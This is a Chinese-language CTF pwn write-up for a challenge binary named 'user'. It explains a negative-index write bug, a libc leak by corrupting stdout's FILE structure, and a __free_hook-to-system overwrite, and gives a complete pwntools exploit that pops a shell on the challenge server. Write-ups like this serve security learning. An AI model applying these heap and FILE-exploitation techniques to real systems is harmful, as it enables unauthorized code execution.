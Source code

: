 # user

## 文件属性

|属性  |值    |
|------|------|
|Arch  |amd64 |
|RELRO |Full  |
|Canary|on    |
|NX    |on    |
|PIE   |on    |
|strip |no    |
|libc  |2.31-0ubuntu9.18|

## 解题思路

看到`delete`和`edit`对输入的索引检查不严格，允许我们输入负数以向前访问。
由于RELRO只读，因此我们有效的数据只有`stdin, stdout, stderr`和`__dso_handle`。
使用`edit`，我们能够写`*stdout`的前0x40字节，通过修改`_flag`和`_IO_write_base`，
就可以让`puts`先将base-ptr范围之间的内容输出出来，借此泄露libc。

> [!TIP]
> 网上一般说修改`_flag`为`0xfbad1800`，但是这样的话就不是无缓冲了，会影响脚本后续判断，
> 因此根据原flag，我们可以设置为`0xfbad1887`，这样既能利用成功，又能保持原有的输出特性。

不难注意到`__dso_handle`上放着`__dso_handle`自己，因此我们edit它时，
等于原地修改那一片的内存。由于是libc2.31，可以直接写入一个`__free_hook`的地址，
再edit它并写入`system`，就利用完毕了。最后分配一个堆块写入`/bin/sh`后，
释放一下就能拿shell。

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux', 'splitw', '-h']
context.arch = 'amd64'
def GOLD_TEXT(x): return f'\x1b[33m{x}\x1b[0m'
EXE = './user'

def payload(lo: int):
    global t
    if lo:
        t = process(EXE)
        if lo & 2:
            gdb.attach(t)
    else:
        t = remote('pss.idss-cn.com', 22122)
    elf = ELF(EXE)
    libc = elf.libc

    def add(buf: bytes):
        t.sendlineafter(b'Unregister', b'1')
        t.sendafter(b'username:\n', buf)

    def delete(idx: int):
        t.sendlineafter(b'Unregister', b'2')
        t.sendlineafter(b'index', str(idx).encode())

    def edit(idx: int, buf: bytes):
        t.sendlineafter(b'Unregister', b'4')
        t.sendlineafter(b'index', str(idx).encode())
        t.sendafter(b'username:\n', buf)

    edit(-8, flat(0xfbad1887, 0, 0, 0, p8(0x8))) # set stdout->write_base to stdout->chain
    libc_base = t.u64() - libc.symbols['_IO_2_1_stdin_']
    success(GOLD_TEXT(f'Leak libc_base: {libc_base:#x}'))
    libc.address = libc_base

    add(b'/bin/sh')
    edit(-11, p64(libc.symbols['__free_hook'])) # write free_hook on __dso_handle
    edit(-11, p64(libc.symbols['system']))      # write system on free_hook
    delete(0) # trigger free hook

    t.clean()
    t.interactive()
    t.close()
```

![flag](assets/user_flag.png)
